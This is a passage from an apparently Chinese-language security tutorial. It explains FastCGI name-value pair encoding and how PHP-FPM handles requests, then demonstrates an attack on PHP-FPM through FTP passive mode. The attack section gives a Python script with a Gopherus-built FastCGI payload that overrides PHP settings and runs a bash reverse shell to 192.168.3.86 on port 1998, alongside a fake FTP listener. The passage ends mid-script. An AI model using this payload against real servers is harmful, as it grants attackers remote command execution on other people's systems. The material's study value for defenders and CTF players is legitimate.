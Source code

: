 > 这其实是 4 个结构，至于用哪个结构，有如下规则

```
key、value均小于128字节，用FCGI_NameValuePair11
key大于128字节，value小于128字节，用FCGI_NameValuePair41
key小于128字节，value大于128字节，用FCGI_NameValuePair14
key、value均大于128字节，用FCGI_NameValuePair44
```

# PHP-FPM (FastCGI进程管理器)
> FPM 其实是一个 fastcgi 协议解析器，Nginx 等服务器中间件将用户请求按照 fastcgi 的规则打包好通过 TCP 传给传给 FPM，FPM 按照 fastcgi 的协议将 TCP 流解析成真正的数据

> 例如：用户访问 `http://127.0.0.1/index.php?a=1&b=2`，如果 web 目录是 `/var/www/html` 那么 Nginx 会将这个请求变成如下 key-value 对

```C++
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
}
```

> 这个数组其实就是 PHP 中 `$_SERVER` 数组的一部分，也就是 PHP 里的环境变量，但环境变量的作用不仅是填充 `$_SERVER` 数组，也是告诉 fpm 要执行哪个PHP文件，PHP-FPM 拿到 fastcgi 的数据包后进行解析，得到上述这些环境变量。然后执行 `SCRIPT_FILENAME` 的值指向 PHP 文件，也就是 `/var/www/html/index.php`

# 攻击方式
> 先用 `Gopherus` 构造 Payload，取出 payload 中 _ 后面的字符

<img src="./FTP与php-fpm/4.png" alt="">

> 接着打 ftp 被动

```python
import socket
from urllib.parse import unquote
​
# 对gopherus生成的payload进行一次urldecode
payload = unquote("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%15%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH104%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%27SCRIPT_FILENAME/www/wwwroot/127.0.0.1/public/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00h%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.3.86/1998%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00")
payload = payload.encode('utf-8')
​
host = '0.0.0.0'
port = 23
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)
```